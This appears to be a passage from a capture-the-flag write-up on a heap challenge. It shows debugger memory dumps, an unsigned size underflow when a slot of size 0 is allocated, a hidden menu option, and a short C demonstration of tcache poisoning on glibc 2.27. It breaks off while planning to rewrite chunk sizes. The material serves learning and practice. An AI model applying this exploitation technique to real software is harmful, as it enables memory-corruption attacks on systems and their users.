 We can use our favourite debugger to validate some of our assumptions. I put a breakpoint at `menu` and allocate some slots followed by inspecting the memory.

I allocated 2 slots with sizes 64 (`0x40`) and 182 (`0xb6`) respectively.

```objdump
gef> x/4gx &allocs
0x563cb7148040 <allocs>:	0x000000000000003f	0x0000563cb8691260
0x563cb7148050 <allocs+16>:	0x00000000000000b5	0x0000563cb8691960
```

Looking at the memory of `allocs` I assume that it stores the size of each slot and the pointer of the memory block allocated by `malloc`. Note that the program stores sizes entered minus 1, too. We now also can check which size gets stored if we allocate a slot of size `0`:

```objdump
gef> x/6gx &allocs
0x563cb7148040 <allocs>:	0x000000000000003f	0x0000563cb8691260
0x563cb7148050 <allocs+16>:	0x00000000000000b5	0x0000563cb8691960
0x563cb7148060 <allocs+32>:	0x00000000ffffffff	0x0000563cb8692060
```

The program stores a very large number indicating a unsigned integer underflow. This makes perfect sense as the other sizes are also one short of what we requested.

The final piece of the puzzle for this challenge is the `secret_chunks` method. When choosing this (hidden) menu option (by entering *1337*) the program will allocate two more chunks using `malloc`. We can easily find their size using `ltrace`. They turn out to be exactly `0x308` bytes large.

This is very convenient as this size fits perfectly fine into the *tcache* (as the hint suggests).

So where are we going with this? Well in glibc 2.27 tcache poisoning is very easy. Take a look at this simple example:

```c
// run with glibc version 2.27
#include <stdlib.h>
#include <stdio.h>

int main() {
    size_t var;

    void *a = malloc(0x308);
    void *b = malloc(0x308);

    free(a);
    free(b);

    *(size_t*)b =&var;

    void *dummy = malloc(0x308);
    void *target = malloc(0x308);
    printf("var @ %p\ntarget @ %p\n", &var, target); // will be equal
}
```

If you reconsider everything we discovered so far, you might notice that we can do exactly the same! Well not exactly the same. Our allocated blocks are too large for the tcache (`0x6f8 > 0x408`). But since we can rewrite our memory using a slot of size `0` we can simply rewrite their size to fit into the tcache!

